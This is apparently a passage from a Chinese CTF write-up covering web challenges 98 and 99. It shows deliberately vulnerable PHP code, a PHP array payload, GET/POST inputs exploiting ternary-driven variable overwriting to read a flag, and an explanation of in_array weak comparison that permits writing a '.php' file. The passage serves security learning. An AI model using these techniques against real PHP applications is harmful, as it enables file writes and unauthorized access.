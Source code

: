 
payload:a[]=1&b[]=1



## web 98

```php
<?php

include("flag.php");
$_GET?$_GET=&$_POST:'flag';  
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);

?> 
```

稀里糊涂的就出flag了，讲下大概思路

主要是三元运算符和变量覆盖

$_GET?$_GET=&$_POST:'flag';   意思就是说如果存在GET请求，则将POAT请求覆盖掉GET请求

highlight_file($_GET['HTTP_FLAG']=='flag'?$flag: __FILE __);   意思就是说GET传参HTTP_FLAG的值为flag，则读取flag

所以我就构造了GET：?flag=123

POST：HTTP_FLAG=flag



然后就得到了flag





## web 99

```php
<?php

highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?> 
```

**in_array弱类型比较**

```php
$allow = array(1,'2','3');
var_dump(in_array('1.php',$allow));
返回的为true

$allow = array('1','2','3');
var_dump(in_array('1.php',$allow));
返回false
```
